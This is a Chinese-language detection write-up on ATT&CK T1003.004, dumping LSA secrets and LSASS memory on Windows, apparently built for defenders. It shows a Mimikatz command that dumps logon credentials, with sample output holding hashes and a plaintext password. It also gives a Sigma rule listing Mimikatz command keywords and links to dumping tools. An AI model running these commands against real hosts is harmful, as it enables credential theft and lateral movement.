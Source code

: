 # T1003-004-windows-基于LSA凭证获取

## 来自ATT&CK的描述

具有SYSTEM访问主机权限的攻击者可能会尝试访问本地安全机构（LSA）机密，其中可能包含各种不同的凭据材料，例如服务帐户的凭据。LSA机密存储在注册表中HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets。LSA机密也可以从内存中转储。

Reg可用于从注册表中提取。Mimikatz可用于从内存中提取秘密。

### LSA（Local Security Authority）

通过system权限访问主机lsass.exe进程，可以从中读取本地登录和域登录的明文密码。当服务在本地或域用户的上下文中运行时，其密码存储在注册表中。如果启用了自动登录，则此信息也将存储在注册表中。

本地安全机构子系统服务（LSASS）处理Windows主机中安全策略的实施。在从2000到Server 2008的Windows环境中，LSASS进程的内存以明文形式存储密码以支持WDigest和SSP身份验证。因此，Mimikatz等工具可以轻松检索密码。自Windows 8.1和Windows Server 2012的Microsoft为了增强系统的安全性，进一步阻止了LSASS以明文形式存储密码。

## 测试案例

你可以使用许多工具进行检索读取SAM文件：

- pwdump.exe
- Mimikatz
- gsecdump
- ······

或者，可以使用reg.exe从注册表中提取文件，并使用Creddump7收集凭据。

注意：由机制问题提取的密码是UTF-16编码的，这意味着它们以明文形式返回.Windows 10增加了对缓解中描述的LSA秘密的保护

## 检测日志

sysmon日志

windows security日志

## 测试复现

### 攻击方法：从lsass.exe程序内存中读取密码(administrator)

```dos
C:\mimikatz_trunk\x64>mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 246475 (00000000:0003c2cb)
Session           : RemoteInteractive from 2
User Name         : 1.205
Domain            : 1205-PC
Logon Server      : 1205-PC
Logon Time        : 2019/7/10 16:12:02
SID               : S-1-5-21-4083414316-2806399370-2225847366-1000
        msv :
         [00000003] Primary
         * Username : 1.205
         * Domain   : 1205-PC
         * LM       : 6ce1432e9b83da8da8eed815a197bd87
         * NTLM     : 6136ba14352c8a09405bb14912797793
         * SHA1     : b1ab7381d8e9799e407f1d4cb39e33b5d3e54f72
        tspkg :
         * Username : 1.205
         * Domain   : 1205-PC
         * Password : 1qazcde3!@#
        wdigest :
         * Username : 1.205
         * Domain   : 1205-PC
         * Password : 1qazcde3!@#
        kerberos :
         * Username : 1.205
         * Domain   : 1205-PC
         * Password : 1qazcde3!@
        ssp :
        credman :
```

## 测试留痕

暂无

## 检测规则/思路

### sigma规则

```yml
title: Mimikatz使用
description: 检测常见的mimikatz命令参数
tags:
    - attack.s0002
    - attack.t1003
    - attack.lateral_movement
    - attack.credential_access
logsource:
    product: windows
detection:
    keywords:
        Message:
        - "* mimikatz *"
        - "* mimilib *"
        - "* <3 eo.oe *"
        - "* eo.oe.kiwi *"
        - "* privilege::debug *"
        - "* sekurlsa::logonpasswords *"
        - "* lsadump::sam *"
        - "* mimidrv.sys *"
        - "* p::d *"
        - "* s::l *"
    condition: keywords
falsepositives:
    - Naughty administrators
    - Penetration test
level: critical
```

### 建议

对数据源要求较高，可适用范围为：2012及以上操作系统，需要开启审核策略；部署sysmon的Windows操作系统，进程创建日志。

## 参考推荐

MITRE-ATT&CK-T1003-004

<https://attack.mitre.org/techniques/T1003/004>

pwdump7

<http://passwords.openwall.net/b/pwdump/pwdump7.zip>

powershell

<https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1>

mimikatz wiki

<https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump>

关于更多转储明文密码你可以参考

<https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/>
